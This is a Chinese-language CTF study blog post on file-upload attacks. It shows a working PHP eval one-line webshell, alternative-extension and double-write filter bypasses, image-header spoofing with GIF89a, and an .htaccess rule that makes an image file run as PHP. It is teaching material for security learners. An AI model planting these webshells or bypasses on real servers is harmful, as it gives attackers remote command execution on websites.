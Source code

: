 ```yaml
---
title: ctf-文件上传
date: 2023-09-27 09:32:01
tags:
categories:
  - [ctf-web]
  - 渗透
---
```

# 一句话木马与文件上传

## webshell

webshell就是以 asp、aspx、php、jsp 或者cgi等网页文件形式存在的一种命令执行环境，也可以将其称做为一种网页后门。黑客在入侵了一个网站后，通常会将asp、aspx、php或jsp后门文件与网站web服务器目录下正常的网页文件混在一起，然后就可以使用浏览器来访问该后门文件了，从而得到一个命令执行环境，以达到控制网站服务器的目的。

最普遍的一句：

```php
<?php @eval($_POST['shell']);?>
```

其中eval就是执行命令的函数，$_POST[‘shell’]就是接收的数据。eval函数把接收的数据当作php代码来执行。这样我们就能够让插了一句话木马的网站执行我们传递过去的任意php语句。这便是一句话木马的强大之处。

## 绕过前端

### burp抓包

抓包改文件名

## 绕过后端

### 特殊解析绕过

如果黑名单规则不严谨，在某些特定的环境中，某些特殊的后缀名仍然会被当做php文件解析。

不同后缀：Php|php2|php3|php4|php5|php6|php7|pht|phtm|phtml

也可尝试大小写绕过：

windows对大小写不敏感，linux对大小写敏感

### 双写绕过

以下为示例检测代码：

```php
$name = basename($_FILES['file']['name']);
$blacklist = array("php", "php5", "php4", "php3", "phtml", "pht", "jsp", "jspa", "jspx", "jsw", "jsv", "jspf", "jtml", "asp", "aspx", "asa", "asax", "ascx", "ashx", "asmx", "cer", "swf", "htaccess", "ini");
$name = str_ireplace($blacklist, "", $name);
//code from ctfhub
```

### 文件头检测绕过

Method1:

上传一张图片，然后在尾部加上一句话木马（同样使用burpsuite）

问题:在传入一张正常图片，然后在burp里面拦截并尾部加上一句话木马后，显示上传成功，但是却无法读取，在前端访问显示error；最后删去了很长一段图片内容，再次上传，可以成功连接；

Method2:

将上传的一句话木马文件改名绕过前端：

muma.php--->muma.jpeg

![image-20230922102923688](https://s2.loli.net/2023/09/22/gpfAxnuyeXzh32j.png)

burp抓包，改回php后缀名，并且加上GIF89a(gif的文件头)

![image-20230922102655658](https://s2.loli.net/2023/09/22/2glOqDAMapuYI4P.png)

但是试了GIF8, 也可以上传成功(网上教程全部说的是添加GIF89a，可能全是抄的一家的吧)

![image-20230922111052350](https://s2.loli.net/2023/09/22/3vlMOEcDTFUymb5.png)

![image-20230922111145578](https://s2.loli.net/2023/10/26/mnCRELWgDAZNO5d.png)

GIF8---47494638  已经是文件头了 

常见图片文件头：

| 文件类型 | 后缀       | 文件头   | 文件尾   | 标志          |
| -------- | ---------- | -------- | -------- | ------------- |
| JPEG     | .jpg/.jpeg | FFD8FF   | FFD9     | JFIF          |
| PNG      | .png       | 89504E47 | AE426082 | PNG IEND IHDR |
| GIF      | .gif       | 47494638 | 003B     | GIT9a         |
| TIFF     | .tif/.tiff | 49492A00 | 4D4D2A00 | - II MM       |

### .htaccess解析

原理： 

- .htaccess 文件提供了针对目录改变配置的方法， 即在一个特定的文档目录中放置一个包含一条或多条指令的文件， 以作用于此目录及其所有子目录。作为用户，所能使用的命令受到限制。管理员可以通过 Apache 的 AllowOverride 指令来设置。 
- htaccess 中有 # 单行注释符, 且支持 \拼接上下两行

```.htaccess
<FilesMatch "1.jpg">    
	SetHandler application/x-httpd-php 
</FilesMatch>
```

### 参考链接

https://www.cnblogs.com/linfangnan/p/15784968.html

![2fc0902942b46dcad0a5b6a23f693363](https://s2.loli.net/2023/10/26/7fsbOxUGq4yHjwV.png)

###  待补充。。。。